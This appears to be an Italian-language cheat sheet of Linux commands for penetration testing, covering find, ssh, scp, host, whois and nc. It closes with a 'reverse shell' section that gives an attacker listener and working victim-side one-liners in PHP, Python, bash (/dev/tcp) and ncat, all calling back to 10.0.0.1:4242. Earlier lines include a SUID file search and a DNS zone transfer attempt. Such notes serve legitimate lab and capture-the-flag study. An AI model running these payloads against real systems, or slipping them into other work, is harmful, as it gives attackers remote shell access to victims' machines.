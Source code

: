 # LISTA COMANDI UTILI
`find`: è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

`ssh`: è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

`scp`: è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

`host`: è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

`whois`: è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

`nc`: utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
	- `nc -l 1234`: inizia ad ascoltare nella porta 1234
	- `nc 127.0.0.1 1234`: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
### Reverse shell
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega, quindi
ATTACCANTE:

```
ncat -lvnp 4242
```

VITTIMA:

> php
```php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("sh <&3 >&3 2>&3");'```

> python3
```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

> bash

```bash -i >& /dev/tcp/10.0.0.1/4242 0>&1```

```0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196```

```/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1```

> netcat
```ncat 10.0.0.1 4242 -e /bin/bash```


